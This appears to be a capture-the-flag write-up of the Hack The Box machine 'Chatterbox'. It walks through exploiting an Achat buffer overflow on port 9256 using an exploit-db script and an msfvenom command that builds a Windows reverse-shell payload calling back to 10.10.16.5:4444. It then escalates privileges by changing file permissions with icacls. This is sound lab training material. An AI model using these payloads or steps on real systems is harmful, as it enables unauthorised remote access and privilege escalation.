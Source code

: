# Chatterbox

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>

Port 9256 was a rather unusual port to be open.

### Achat

Researching a bit about this port led me to this post:

{% embed url="https://www.speedguide.net/port.php?port=9256" %}

So this port had a vulnerable software on it that is vulnerable to a Remote BOF exploit. We can use an exploit from exploit-db for this:

{% embed url="https://www.exploit-db.com/exploits/36025" %}

Again, we would need to replace the shellcode with a reverse shell one. We can do so like this:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```
{% endcode %}

Then, we can run the script and a shell would pop on our listener port.

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Directory Misconfig

When I ran WinPEASx64 on this machine, there was a lot of indication that we had AllAccess to the administrator's desktop.&#x20;

<figure><img src="../../../.gitbook/assets/image (42) (5).png" alt=""><figcaption></figcaption></figure>

However, we cannot read the root flag for some reason.

<figure><img src="../../../.gitbook/assets/image (7) (5).png" alt=""><figcaption></figcaption></figure>

We can check the permissions using `icacls`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So we the user have Full Control over the Desktop (that's what (F) means), but the flag has been configured like so. To cirumvent this, we can grant ourselves the permission to read the files.

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can read the root flag.
